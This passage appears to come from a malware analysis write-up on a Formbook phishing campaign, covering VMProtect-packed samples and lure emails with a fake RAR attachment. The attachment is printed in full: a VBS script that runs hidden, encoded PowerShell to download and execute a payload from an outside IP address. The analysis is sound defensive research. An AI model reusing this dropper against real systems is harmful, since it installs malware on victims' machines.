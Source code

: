 Through further analysis of the DLLs sections list, we identified that the file was protected with [VMProtect](https://vmpsoft.com/) (identified by the .vmp0, .vmp1, .vmp2, .vmp3 sections). “VMProtect protects code by executing it on a virtual machine with non-standard architecture that makes it extremely difficult to analyze.”

```
$ pedump --sections 1.doc.inf | awk '{print $1, $2, $3, $4}'
=== SECTIONS ===
NAME    RVA    VSZ    RAW_SZ
.text   1000   12ecd  0
.rdata  14000  49ce   0
.data   19000  1350d8 0
.vmp1   14f000 2c70   0
.vmp0   152000 fac    0
.bss    153000 1000   0
.vmp2   154000 38c0bb 0
.vmp3   4e1000 5c6720 5c6800
.reloc  aa8000 5b4    600
```

As we were unable to analyze the VMProtected file, we continued to explore other information that we’d previously collected. Specifically, we searched for additional samples that had been sent using the same admin0011[@]issratech.com email address. These parallel analyses identified additional samples and campaign phases, which we’re referring to as the Production and Generic phases.

### Production phase

The second, third, and fourth sightings all had the same sender field of admin0011[@]issratech.com and included a single attachment — Profile.rar file — to deliver the second stage malware.

![Production phase lure email](/assets/images/formbook-adopts-cab-less-approach/production-phase-lure-email.jpg)

#### Profile.rar

Previously, we’ve highlighted files that have an extension that differs from their actual file type. To validate that the attachment is a RAR archive, we again use the file command to validate that it is a RAR archive.

```
$ file Profile.rar
Profile.rar: data
```

The attachment has a RAR file extension, but instead of having a file type of RAR archive data, v5, it is raw data. Analysts who discover a file containing raw data can use the less command to dump the file contents to STDOUT to directly inspect what may be inside.

```
$ less Profile.rar
<job><script language=vbs>Set WshShell = WScript.CreateObject("WScript.Shell")
runCmd = "POwErshell -noprofile -noni -W Hidden -enc aQBlAHgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAHMAeQBzAHQAZQBtAC4AbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAGYAaQBsAGUAKAAiAGgAdAB0AHAAOgAvAC8AMQAwADQALgAyADQANAAuADcAOAAuADEANwA3AC8AYQBiAGIAMAAxAC4AZQB4AGUAIgAsACIAJABlAG4AdgA6AEwATwBDAEEATABBAFAAUABEAEEAVABBAFwAZABsAGwAaABvAHMAdABTAHYAYwAuAGUAeABlACIAKQApADsAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgACIAJABlAG4AdgA6AEwATwBDAEEATABBAFAAUABEAEEAVABBAFwAZABsAGwAaABvAHMAdABTAHYAYwAuAGUAeABlACIA"
WshShell.Run "cmd /c " & runCmd, 0, True</script></job> Rar!...truncated...
```

